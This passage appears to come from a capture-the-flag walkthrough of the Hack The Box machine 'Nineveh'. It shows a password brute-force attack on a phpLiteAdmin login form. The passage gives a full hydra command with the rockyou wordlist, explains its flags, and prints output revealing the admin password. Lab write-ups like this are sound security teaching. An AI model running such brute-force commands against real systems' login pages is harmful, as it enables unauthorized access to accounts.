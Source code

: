 I tried the default password “admin” for phpLiteAdmin v1.9 but that did not work. Let’s try brute-forcing the password. First, intercept the request in Burp.

![](../images/max/779/1*n7CfvKcuwwRCvVQjsYU0pA.png)

Then run hydra on the login form.

```text
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
```

* **-l:** specifies the username to be admin.
* **-P:** specifies the file that contains the passwords.
* **http-post-form:** we’re sending a POST request.
* **“….”:** the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

We get back the following result.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-28 11:12:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password.
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 11:13:53
```
